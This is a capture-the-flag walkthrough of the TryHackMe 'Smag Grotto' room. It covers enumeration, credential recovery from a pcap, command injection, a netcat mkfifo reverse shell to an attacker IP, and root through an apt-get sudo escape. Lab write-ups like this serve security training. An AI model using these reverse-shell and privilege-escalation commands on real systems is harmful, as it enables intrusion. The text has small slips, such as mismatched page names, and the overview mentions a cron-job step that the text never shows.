







**Room by:** 
**Difficulty:** Easy
**Url:** [TryHackMe.com - Smag Grotto](https://tryhackme.com/room/smaggrotto)


## Overview:

Find .pcap file at /mail and analyze with Wireshark. Login to /admin.php and exploit command injection. Exploit cron job to gain user, and then a GTFOBin for root.


## ~ Enumeration
**Start with an nmap scan `nmap -sV -sC -oN nmap/scan smag.thm`. Then we will run Gobuster against `http://smag.thn'.**

**Nmap** <br />

```bash
# Nmap 7.80 scan initiated Wed Jul 29 20:32:03 2020 as: nmap -sC -sV -oN scan 10.10.207.150
Nmap scan report for 10.10.207.150
Host is up (0.024s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

**HTML**
<br />

[](Images/welcome.png)

<br />

> Nothing obvious so far

<br />

**Gobuster**
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.131.117
[+] Threads:        10
[+] Wordlist:       /opt/wordlists/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/08 11:48:07 Starting gobuster
===============================================================
// (Status: 200)
/mail (Status: 301)
===============================================================
2020/12/08 11:48:24 Finished
===============================================================
```
<br />

**If we go to `/mail` you will find a `.pcap` file to download. The page instructs you to download using `wget`.**

`wget http://smag.thm/aW1wb3J0YW50/dHJhY2Uy.pcap`


**Now we have the file, lets analyze it using Wireshark.**

](Images/wireshark1.png)

**Follow the HTTP stream:**
<br />

[](Images/wireshark2.png)

**This gives us a username, password and a domain name to add to `/etc/hosts`**
[](Images/devsmag.png)


## ~ Foothold

If we browse to `/login.php` we can log in using the creds we found earlier. And then we are greeted a page, where we can input commands. For a simple PoC we will host a http server on our machine and try to `wget` from the command box.

**`wget 'http://10.10.10.10:8000/test.txt`**

<br />

[](Images/wget.png)

**Revers Shell:**
We are going to set up and send a netcat reverse shell.
<br />
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

[](Images/adminphp.png)
<br />  

[](Images/nc.png)

## ~ Privesc to user:


## `Sudo -l`
```
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get

```


`sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`


